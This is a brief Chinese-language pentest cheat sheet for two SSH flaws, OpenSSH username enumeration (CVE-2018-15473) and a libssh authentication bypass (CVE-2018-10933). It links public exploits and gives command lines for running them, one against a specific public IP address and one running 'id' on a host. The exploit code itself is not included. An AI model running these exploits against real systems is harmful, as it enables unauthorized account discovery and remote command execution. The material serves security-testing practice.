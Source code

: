 ## OpenSSH 用户名枚举漏洞

CVE-2018-15473

https://vulhub.org/#/environments/openssh/CVE-2018-15473/

https://github.com/Rhynorater/CVE-2018-15473-Exploit

```
pip3 install -r requirements.txt
pip3 install paramiko==2.4.1

python sshUsernameEnumExploit.py --port 32013 --userList exampleInput.txt 123.58.236.76
```

## libssh 身份验证绕过

CVE-2018-10933

https://www.seebug.org/vuldb/ssvid-97614

```
python libssh.py 192.168.1.101 2222 "id"
```

<img src="图片\Snipaste_2023-02-09_12-17-50.png" alt="Snipaste_2023-02-09_12-17-50" style="zoom:80%;" />

# 设备安全
